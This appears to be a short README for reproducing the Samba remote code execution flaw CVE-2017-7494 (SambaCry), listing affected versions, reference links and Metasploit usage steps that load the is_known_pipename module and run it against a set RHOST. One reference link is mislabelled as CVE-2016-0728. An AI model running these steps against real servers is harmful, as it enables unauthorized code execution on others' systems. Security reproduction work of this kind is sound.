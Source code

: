 # CVE-2017-7494

CVE-2017-7494

Vulnerability reference:
 * [CVE-2016-0728](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-7494)  
 * [exp-db](https://www.exploit-db.com/exploits/42060/)  

## Samba
```
Samba 3.5.0-4.6.4/4.5.10/4.4.14
```   

## Usage
```
is_known_pipename.rb 放在 /usr/share/metasploit-framework/modules/exploits/linux/samba/ 目录下

msf > use exploit/linux/samba/is_known_pipename

set RHOST 192.168.220.140

run
```  


## References
* [Samba远程代码执行漏洞(CVE-2017-7494)](http://thief.one/2017/05/25/2/)
* [【漏洞分析】Samba远程代码执行漏洞(CVE-2017-7494)-SambaCry分析报告](http://bobao.360.cn/learning/detail/3915.html)
* [Msf复现Samba远程代码执行漏洞](http://www.secist.com/archives/3666.html)  




